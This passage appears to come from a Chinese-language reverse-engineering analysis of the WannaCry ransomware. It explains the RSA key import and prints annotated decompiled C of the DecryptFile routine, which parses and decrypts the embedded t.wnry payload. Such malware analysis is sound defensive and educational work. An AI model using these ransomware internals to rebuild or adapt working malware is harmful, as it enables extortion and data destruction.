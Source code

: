 这个函数完成了两项工作：

1.  导入 RSA 私钥，用来解密后面的相关文件

2.  申请了两块大小为 0x100000 的内存

### 5.3.4 DecryptFile 解密t.wnry

```c
int __thiscall DecryptFile(void this, LPCSTR lpFileName, int DecryptFileSize)  

{  

hFile = CreateFileA(lpFileName, GENERIC_READ, FILE_SHARE_READ, 0, OPEN_EXISTING, 0, 0);// 以只读的方式打开t.wnry  

if ( hFile != (HANDLE)INVALID_HANDLE_VALUE )  

{  

GetFileSizeEx(hFile, &FileSize);            // 获取文件大小  

if ( FileSize.QuadPart <= 0x6400000 )  

{  

if ( ReadFile_Addr(hFile, &lpBuffer, 8u, &lpNumberOfBytesRead, 0) )// 读取8个字节的文件内容 读取的内容为WANACRY!  

{  

if ( !memcmp(&lpBuffer, aWanacry, 8u) )  

{  

if ( ReadFile_Addr(hFile, &Buffer, 4u, &lpNumberOfBytesRead, 0) )// 继续向后读取4个字节的内容 读取的内容为0x100  

{  

if ( Buffer == 0x100 )  

{  

if ( ReadFile_Addr(hFile, pBuffer[306], 0x100u, &lpNumberOfBytesRead, 0) )// 读取0x100个字节  

{  

if ( ReadFile_Addr(hFile, &buff, 4u, &lpNumberOfBytesRead, 0) )// 再次读取4个字节 内容为04  

{  

if ( ReadFile_Addr(hFile, &buffer, 8u, &lpNumberOfBytesRead, 0) )// 继续往后读8字节->10000  

{  

if ( buffer <= 0x6400000 )  

{  

if ( DecryptData((int)(pBuffer + 1), (BYTE *)pBuffer[306], Buffer, &DecryptDatas, (int)&DataSize) )// 对读取的0x100个字节进行解密  

{  

sub_402A76((char *)pBuffer + 84, (int)&DecryptDatas, Src, DataSize, 0x10u);  

```